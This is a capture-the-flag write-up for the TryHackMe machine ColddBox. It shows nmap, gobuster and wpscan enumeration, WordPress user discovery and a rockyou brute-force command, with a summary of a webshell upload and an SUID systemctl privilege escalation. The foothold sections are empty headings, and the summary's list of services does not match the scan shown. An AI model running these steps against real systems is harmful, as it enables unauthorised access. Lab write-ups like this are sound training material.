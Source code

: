 # ColddBox — Writeup

**Fecha:** 1-09-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontraron servicios FTP, SSH, Samba y un servicio web con un directorio de subida (/internal). Subiendo un webshell .phtml se consiguió una reverse shell como www-data. Desde esa cuenta se escaló privilegios aprovechando /bin/systemctl con permiso SUID para ejecutar una unidad systemd que leyó /root/root.txt a /tmp/flag.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.1.31
|_http-title: ColddBox | One more machine
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Summary**
* 80/tcp open http (Apache/2.4.18)

---
## Web Enumeration (Gobuster)

```bash
  gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```
**Comment:** `dir` busca directorios y archivos ocultos; `-w` lista de palabras.

**Result**
```bash
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://10.201.96.48/wp-content/]                                                                     
/wp-admin             (Status: 301) [Size: 315] [--> http://10.201.96.48/wp-admin/]                                                                       
Progress: 141707 / 141707 (100.00%)
===============================================================
```

## Users Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```
**Comment:** `--enumerate u` enumera usuarios de wordpress.

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

**Brute Force**
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash

```
## Foothold
**Reverse Shell**

**Upload Script**

**Listen Port**

**Upgrade Shell**
